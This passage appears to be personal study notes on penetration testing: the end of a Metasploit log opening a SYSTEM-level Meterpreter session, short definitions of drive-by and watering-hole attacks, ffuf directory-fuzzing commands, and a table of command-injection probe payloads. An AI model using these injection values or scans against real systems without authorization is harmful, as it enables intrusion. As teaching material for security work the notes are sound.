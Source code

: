 ```

[*] Exploit completed, launching session...
[*] Meterpreter session 2 opened

# Step 6: Interact with new session
msf6 > sessions -i 2
[*] Starting interaction with session 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

## Web attacks

- drive-by attack: Attacker compromises a weak and legitimate website, users will access the website, and js will be kicked and important data is sent to attacker's server
- waterhole attack: the victims are targeted in drive-by attacks
- beef

# 4

## Web Application Attack

### Discover contents

- Forced browsing: To access, use predefined list of URI rather than follow links
- Insecure Direct Object Reference (IDOR): Predictable pattern in URI
- `robots.txt`: Cue to discover hidden directories
- ffuf: pretty fast enumeration tool

```
ffuf -w words.txt -u https://target.tgt/FUZZ
```

```
python dates.py | ffuf -w - -u https://target.tld/ticketsbyday?id=FUZZ
seq -w 0 999 | ffuf -w - -u https://example.com/FUZZ
```

### Command injections

| payload | description |
| --- | --- |
| -h | maybe help will apppear |
| PARAM; echo 1 | Unix only |
| echo 1\| | perl specific, when opening a file |
| PARAM \| echo 1 | run echo after initial command |
| PARAM \|\| echo 1 | Unix only, initial command returns non-zero, run echo |
| PARAM & echo 1 | Unix only, run inital command as a background task, and echo |
| PARAM && echo 1 | Unix only, initial command returns zero, run echo |
| $(echo 1) | Unix only, bash specific |
| \`echo 1\` | Unix only, generic process substitution |
| >(echo 1) | Unix only, run echo using substitution |
